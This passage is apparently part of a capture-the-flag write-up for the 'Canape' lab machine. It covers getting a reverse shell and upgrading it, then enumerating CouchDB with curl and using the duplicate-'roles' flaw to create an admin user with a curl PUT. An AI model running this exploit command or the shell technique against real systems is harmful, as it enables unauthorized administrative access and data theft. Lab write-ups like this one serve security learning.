 I wrote a simple script to test it if it works..<br>
So I added **"homer"** at the end of my payload. I added at the begining before but when I tried to execute my test script, it didn't worked.

Ran it and boooom, the command was executed.

![image]({{ site.baseurl }}/assets/images/1_UwIXKF_esjrWqgn9l3pmdw.png)

Than I build a little script to get a **reverse-shell.**<br>
Here is the gist link. https://git.io/fAiTU

![image]({{ site.baseurl }}/assets/images/1_mhbAJYSEztxNPp9GHNSGjA.png)

![image]({{ site.baseurl }}/assets/images/1_VNIJlcUPp8ld2XxSoPfODw.png)

Now we are in as www-data user. We can start to enumerate from the inside.<br>
But first lets quickly upgrade our shell.

>CTRL + Z<br>
>stty raw -echo<br>
>fg

# Further Enumeration
First I want it to check **couchdb**. I didn’t know how to query that database, so I searched on google.

```
www-data@canape:/$ curl http://localhost:5984
{"couchdb":"Welcome","version":"2.0.0","vendor":{"name":"The Apache Software Foundation"}}

www-data@canape:/$ curl http://localhost:5984/_users/_all_docs
{"error":"unauthorized","reason":"You are not a server admin."}

www-data@canape:/$ curl http://localhost:5984/_all_dbs
["_global_changes","_metadata","_replicator","_users","passwords","simpsons"]

www-data@canape:/$ curl http://localhost:5984/passwords
{"error":"unauthorized","reason":"You are not authorized to access this db."}
```

> Tip: You can **prettify** that values in **vscode** by pressing *CTRL + K F*<br>

Hmmm thats interesting. There is passwords table, probably with usefull content.<br>
I wanna check it out, but it gives me an error that says I’m not authorized.

At this point, I know the version of **couchdb**, so I searched for common exploits and vulnerabilities.
And I came across with these:

>https://www.exploit-db.com/exploits/44498/<br>
>https://serverfault.com/questions/742184/couchdb-user-creation-without-authentication-standard-behavior

```
www-data@canape:/$ curl -X PUT "http://localhost:5984/_users/org.couchdb.user:pwn" -d '{ "type": "user", "name": "pwn", "roles": ["_admin"], "roles": [], "password": "pwn" }'
<"name": "pwn", "roles": ["_admin"], "roles": [], "password": "pwn" }'
{"ok":true,"id":"org.couchdb.user:pwn","rev":"1-2189e39effa7061778a422d5e9318d21"}
```
